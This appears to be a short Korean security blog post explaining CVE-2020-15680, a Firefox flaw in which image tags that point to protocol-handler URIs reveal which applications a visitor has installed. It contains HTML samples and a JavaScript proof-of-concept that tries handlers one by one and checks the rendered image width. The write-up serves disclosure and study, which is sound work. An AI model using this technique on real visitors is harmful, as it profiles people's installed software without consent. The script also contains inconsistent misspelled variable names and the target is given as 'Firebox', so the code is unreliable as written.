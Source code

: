 ```yaml
---

title: "[하루한줄] CVE-2020-15680 : protocol handler infomation disclosure"
author: Fabu1ous

tags: [Fabu1ous, information disclosure, cve]

categories: [1day1line]

date: 2020-12-05 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[leaking browser url/protocol handler](https://www.fortinet.com/blog/threat-research/leaking-browser-url-protocol-handlers?utm_source=feedburner&utm_medium=feed&utm_campaign=Feed%3A+fortinet%2Fblog%2Fthreat-research+%28Fortinet+Threat+Research+Blog%29)

## Target

Firebox 78.01



## Explain

Firefox에서 Protocol Handler를 이용한 Information Disclosure 취약점이 발견되었습니다. Protocol Handler는 응용 프로그램이 자신의 URI scheme를 등록할 수 있는 매커니즘으로 이를 통해 프로세스를 실행할 수 있습니다. 브라우저가 Protocol Handler URI를 사용해 프로세스를 실행하면 "웹사이트에서 이 애플리케이션을 열려고 합니다."라는 알림이 뜹니다.  

Firefox가 이미지 태그의 소스를 렌더링 할 때, Protocol Handler의 존재 여부에 따라 렌더링 결과가 다릅니다. 해커는 이점을 악용해 원격으로 victim에 설치된 프로그램 리스트를 알 수 있습니다.

```html
<img src="존재하는ProtocolHandler://abc">
```

victim에 존재하는 Protocol Handler를 이미지 src에 넣으면 broken image에 대한 기본 설정에 따라 Element의 size가 24x24로 렌더링 됩니다.

```HTML
<img src="존재하지않는ProtocolHandler://abc">
```

반면, 존재하지 않는 Protocol Handler를 이미지 src에 넣으면 Element의 size는 0x0으로 설정됩니다.



따라서 해커는 간단한 JS script로 Element의 width를 검사해 Protocol Handler의 존재 여부를 확인하는 brute force 공격을 할 수 있습니다.

```javascript
known_handlers = [
  ...
]
  
for (var i = knwon_handers.length -1; i>=0; i--){
  handler_id = 'handler_' + i
  $('body').append('<img id ="' + handler_id + '"src="'+known_handers[i]
  + '://192.168.133.142/"></img>')
  if($('#' + handler_id).css('width') == "24px"){
    $('<p>Handler ' + known_handlers[i] + 'Exists</p>').appendTo('#logbox');
  }
  else{
    $('<p>Hander ' + known_handers[i] + 'Does not exists</p>').appendTo('#logbox');
  }
  
  $('#' + hander_id).remove()
}
```





